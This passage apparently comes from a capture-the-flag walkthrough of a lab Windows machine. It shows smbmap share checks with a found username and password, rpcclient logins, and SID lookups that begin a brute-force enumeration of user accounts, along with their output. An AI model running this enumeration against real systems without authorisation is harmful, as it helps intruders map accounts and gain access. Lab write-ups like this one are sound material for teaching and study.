     
    
    root@kali# smbmap -H 10.10.10.149 -u hazard -p stealth1agent
    [+] Finding open SMB ports....
    [+] User SMB session establishd on 10.10.10.149...
    [+] IP: 10.10.10.149:445        Name: 10.10.10.149                                      
            Disk                                                    Permissions
            ----                                                    -----------
            ADMIN$                                                  NO ACCESS
            C$                                                      NO ACCESS
            IPC$                                                    READ ONLY
    

I would go back and re-run `crackmapexec`, but I already saw all three
passwords fail with the two other users. I’ll also try to connect over WinRM
with these creds, but it fails.

#### rpcclient

`IPC$` is a share [used for interprocess
communications](http://smallvoid.com/article/winnt-ipc-share.html). Typically
`IPC$` is known for accecpting null (unauthenticated) sessions, but in this
case, I needed credentials to read from it.

As I can read `IPC$`, I can connect with `rpcclient`:

    
    
    root@kali# rpcclient -U 'hazard%stealth1agent' 10.10.10.149
    rpcclient $> 
    

I can use the `lookupnames` command to get the SIDs of the users I know:

    
    
    rpcclient $> lookupnames hazard
    hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
    rpcclient $> lookupnames administrator
    administrator S-1-5-21-4254423774-1266059056-3197185112-500 (User: 1)
    rpcclient $> lookupnames rout3r
    result was NT_STATUS_NONE_MAPPED
    rpcclient $> lookupnames admin
    result was NT_STATUS_NONE_MAPPED
    

I can also look up accounts by SID:

    
    
    rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
    S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
    

I’ll brute force across a bunch of SIDs in a loop to get a list of all users.
If I run `rpcclient` with a `-c`, I can offer a command from the command line:

    
    
    root@kali# rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c 'lookupsids S-1-5-21-4254423774-1266059056-3197185112-1000'
    S-1-5-21-4254423774-1266059056-3197185112-1000 *unknown*\*unknown* (8)
    